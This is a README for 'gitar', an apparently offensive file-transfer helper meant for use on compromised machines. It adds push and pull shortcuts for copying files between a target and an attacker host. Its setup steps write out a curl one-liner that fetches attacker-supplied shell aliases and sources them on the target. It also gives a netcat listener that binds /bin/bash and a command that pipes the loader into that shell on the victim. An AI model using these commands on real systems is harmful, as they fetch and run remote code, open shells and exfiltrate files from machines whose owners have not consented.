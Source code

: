 # 🎸 gitar 

<div align="center">
<code><b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from my <q>target machine</q></code>
</div>

----

## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

### Pre-requisite

* Network connectivy trough http between attacker & target machine
*[target machine] <--http--> [Attacker machine]*

* On target machine: `nc`,`cat`, `curl` 
	* and `tar` for upload directory 

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within: `export CMD=[get & source shortcuts one-liner] && (echo $CMD && cat) | nc [VICTIM_IP] 4444`

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites*

**Useful cause we will expose our http server and thus we become the prey**
-   HTTPS, basic authent (for the file server part)
-   Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 

**Improve UX**
-   Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
-  Endpoint outputting the tree structure of the file server (for `pull`file possibility)
-  Download directory support 
-  Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`

